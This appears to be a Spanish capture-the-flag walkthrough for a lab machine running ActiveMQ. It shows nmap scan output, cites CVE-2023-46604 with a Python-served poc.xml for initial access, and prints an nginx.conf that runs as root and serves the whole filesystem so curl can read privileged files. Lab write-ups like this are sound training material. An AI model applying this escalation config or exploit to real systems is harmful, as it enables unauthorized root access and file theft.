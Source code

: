 ### nmap
#Linux
```python
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1234/tcp  open  hotline?
1337/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Index of /
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE    TIME               FILENAME
| -       06-Nov-2023 01:10  bin/
| -       06-Nov-2023 01:10  bin/X11/
| 963     17-Feb-2020 14:11  bin/NF
| 129576  27-Oct-2023 11:38  bin/VGAuthService
| 51632   07-Feb-2022 16:03  bin/%5B
| 35344   19-Oct-2022 14:52  bin/aa-enabled
| 35344   19-Oct-2022 14:52  bin/aa-exec
| 31248   19-Oct-2022 14:52  bin/aa-features-abi
| 14478   04-May-2023 11:14  bin/add-apt-repository
| 14712   21-Feb-2022 01:49  bin/addpart
|_
1883/tcp  open  mqtt
```

### Enumeracion del puerto 80
![[Pasted image 20240106222122.png]]
tenemos información sobre la pagina. esto es importante para poder buscar vulnerabilidades o exploits
### buscamos información sobre el framework
![[Pasted image 20240106222624.png]]
searchsploit nos indica que tenemos varios sploits  para poder vulnerar este framework asi que haremos una busqueda en internet

### CVE-2023-46604
![[Pasted image 20240106224146.png]]

### ejecutamos el exploit
abrimos un servidor en python para poder hacer el llamado del poc.xml y ejecutamos
![[Pasted image 20240106231746.png]]
tenemos conexión 

### Escalada de privilegios 
![[Pasted image 20240106232230.png]]

### copiamos el archivo nginx.conf al directorio tmp para poder editarlo
```
user root;
events {
	worker_connections 768;
}
http {
	server {
		listen 9001;
		root /;
		autoindex on;
	}
}
```
si nos da un error podemos cambiar el puerto de listen por otro
![[Pasted image 20240107003240.png]]finalmente podemos hacer un curl al localhost apuntando al puerto listen que especificamos y al directorio donde buscaremos el archivo que necesitamos

### WE ARE ROOT
![[Pasted image 20240130204058.png]]